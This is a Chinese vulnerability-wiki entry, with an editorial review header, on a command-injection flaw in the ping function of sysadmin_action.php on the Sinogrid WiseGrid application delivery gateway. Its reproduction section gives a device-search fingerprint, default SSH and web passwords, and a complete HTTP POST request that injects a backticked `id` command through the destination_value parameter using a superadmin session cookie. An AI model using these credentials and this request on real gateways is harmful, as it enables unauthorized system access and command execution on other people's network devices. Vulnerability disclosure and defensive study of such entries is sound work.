


# 信诺瑞得-WiseGrid慧敏应用交付网关-sysadmin_action.php-后台命令执行漏洞

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：信诺瑞得WiseGrid
- 文献类型：技术文章（细分类待核）
- 版本、权限及部署边界：version存产品名，Cookie含V4.2.2R_17322应只作实验版本；默认密码仅配置前提不能保证所有设备；后台superadmin权限要明确
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. HTTP请求开头混两个Markdown图片导致不可直接复用
2. 末尾空图片
3. version存产品名，Cookie含V4.2.2R_17322应只作实验版本
4. 默认密码仅配置前提不能保证所有设备
5. 后台superadmin权限要明确
6. 缺修复说明，路径命令注入与默认凭据分开记录

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

## 漏洞描述

信诺瑞得 WiseGrid慧敏应用交付网关 sysadmin_action.php 对应的ping功能存在后台命令执行漏洞，通过默认口令可以获取系统权限

## 漏洞影响

```
信诺瑞得 WiseGrid慧敏应用交付网关
```

## 网络测绘

```
app="WiseGrid慧敏应用交付网关"
```

## 漏洞复现

登录页面


默认口令

```
ssh：root/sinogrid
web: admin/sinogrid
```

```
POST /bin/sysadmin_action.php?action=getinfo&operation=ping&destination_value=`id`&ping_count=3&sar_value=3&netstat_value=tcp&interface= HTTP/1.1
Host: 
Cookie: PHPSESSID=451********************df2; funcs=NNN; appversion=WiseGrid-V4.2.2R_17322; hbstate=alone; username=admin; passwordmd5=ef9ffdf6c1e2fe91d4e14b30323fb771; role=superadmin; authmode=LOCAL; session_time=1639643323; lang=zh; declaration=1; needSyn=false
Content-Length: 0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="96", "Google Chrome";v="96"
Accept: */*
X-Requested-With: XMLHttpRequest
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36
Sec-Ch-Ua-Platform: "macOS"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
X-Forwarded-For: 127.0.0.1
X-Originating-Ip: 127.0.0.1
X-Remote-Ip: 127.0.0.1
X-Remote-Addr: 127.0.0.1
Connection: close
```




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
